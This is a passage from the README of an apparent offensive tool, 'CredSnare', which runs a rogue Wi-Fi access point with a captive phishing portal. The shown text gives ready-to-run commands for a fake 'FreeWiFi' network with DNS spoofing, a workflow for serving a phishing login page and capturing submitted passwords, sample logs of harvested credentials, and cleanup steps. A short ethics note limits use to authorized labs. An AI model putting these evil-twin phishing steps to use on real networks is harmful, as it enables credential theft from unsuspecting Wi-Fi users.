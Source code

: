   ```json
    "timestamp": "2025-05-15 14:00:06"
  }
  ```
- **Tips**: Use **WordForge** to generate phishing page templates.

#### DNS Spoofing
- **Purpose**: Redirect traffic to the phishing portal.
- **Usage**:
  ```bash
  sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html --dns-spoof
  ```
- **Output**:
  ```
  2025-05-15 14:00:03 - INFO - Starting fake DNS server
  ```
- **Tips**: Combine with **DNSTwist** for advanced DNS spoofing.

#### Quiet Mode
- **Purpose**: Reduce terminal output.
- **Usage**:
  ```bash
  sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html -q
  ```
- **Tips**: Monitor `credsnare.log` with `tail -f credsnare.log`.

### Workflow
1. Set up lab (VM with Wi-Fi adapter in monitor mode).
2. Install dependencies:
   ```bash
   ./setup_credsnare.sh
   ```
3. Create `login.html` phishing template.
4. Run CredSnare:
   ```bash
   sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html --dns-spoof
   ```
5. Connect a test device to `FreeWiFi`; submit credentials.
6. Check logs (`credsnare.log`) and results (`credsnare-output/`).
7. Stop with `Ctrl+C`; secure outputs (`rm -rf credsnare-output/*`).

## Output
- **Logs**: `credsnare.log`, e.g.:
  ```
  2025-05-15 14:00:00 - INFO - Starting CredSnare with SSID: FreeWiFi
  2025-05-15 14:00:05 - INFO - Credential captured: Username=test, Password=secret
  ```
- **Results**: `credsnare-output/snare_<ssid>_<timestamp>.txt` and `.json`.
- **Database**: `credsnare-output/credsnare.db` (SQLite).

## Notes
- **Environment**: Use on authorized networks in your lab.
- **Impact**: Fake APs may disrupt networks; test with caution.
- **Ethics**: Avoid unauthorized use to prevent legal/security issues.
- **Dependencies**: Requires `flask`, `dnspython`, `hostapd`, `dnsmasq`, `aircrack-ng`.
- **Root**: Requires `sudo` for monitor mode and server operations.
